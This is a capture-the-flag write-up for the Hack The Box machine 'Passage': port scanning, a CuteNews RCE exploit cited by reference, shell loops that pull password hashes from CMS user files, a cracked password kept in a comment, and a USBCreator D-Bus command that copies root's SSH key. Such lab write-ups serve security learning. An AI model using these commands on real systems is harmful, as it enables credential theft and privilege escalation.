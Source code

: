 ![](passage_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * __[cutenews](https://cutephp.com/):__ CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    ![](screenshots/cutenews.png)

  * __Version:__ 2.1.2
  * __Exploit:__ [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) __RCE__ [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * __msf module:__ `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  ![](screenshots/cutenews-exploit.png)

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  ![](screenshots/grep-hashes.png)

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    ![](screenshots/crack-the-hash.png)
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  ![](screenshots/su-you-paul.png)
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  ![](screenshots/nadav-in-ssh.png)

## user:nadav

* use that private ssh key to get nadav shell -

  ![](screenshots/nadav-is-here.png)

* something in the viminfo file - 

  ![](screenshots/viminfo.png)

  * two config file edited owned by root -

    ![](screenshots/owned-by-root.png)

* searching about these files find something intresting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    ![](screenshots/root-key-on-bus.png)

